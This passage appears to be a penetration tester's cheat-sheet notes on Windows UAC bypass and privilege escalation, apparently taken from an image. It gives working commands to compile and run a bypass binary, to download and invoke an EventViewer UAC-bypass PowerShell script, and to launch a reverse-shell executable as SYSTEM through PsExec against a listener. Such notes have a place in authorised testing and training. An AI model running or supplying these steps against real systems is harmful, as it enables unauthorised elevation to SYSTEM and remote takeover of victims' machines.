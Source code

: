 	GetCurrentDirectory(MAX_PATH, curPath);
	strcat(curPath, "\\reverse64.exe");

```bash - kali
x86_64-w64-mingw32-gcc main.c -o bypass64.exe
```

Set up listener, transfer to target, run bypass64.exe file.

```command prompt - target
bypass64.exe
```

**When you run whoami, you will still be the same user, however,  when you run whoami /priv, you have much more privileges! **

Download PsExec and transfer to target.  Set up listener:

[[rlwrap]]

Run following command for system shell.
	- MAY NEED TO USE FULL PATH TO EXPLOIT FILE!
```command prompt - target
PsExec64.exe -i -accepteula -d -s C:\Users\alice\AppData\Local\Temp\Tools\reverse64.exe
```

#### Method 2
```command prompt - kali
wget https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1
```

```powershell - target
Import-Module .\Invoke-EventViewer.ps1
```

[[rlwrap]]

```powershell - target
Invoke-EventViewer %TEMP%\Tools\reverse64.exe
```

**When you run whoami, you will still be the same user, however,  when you run whoami /priv, you have much more privileges! **

Download PsExec and transfer to target.  Set up listener:

[[rlwrap]]

Run following command for system shell.
	- MAY NEED TO USE FULL PATH TO EXPLOIT FILE!
```command prompt - target
PsExec64.exe -i -accepteula -d -s %TEMP%\Tools\reverse64.exe
```


---

#### Harddrirves

```command prompt - windows
mountvol
```
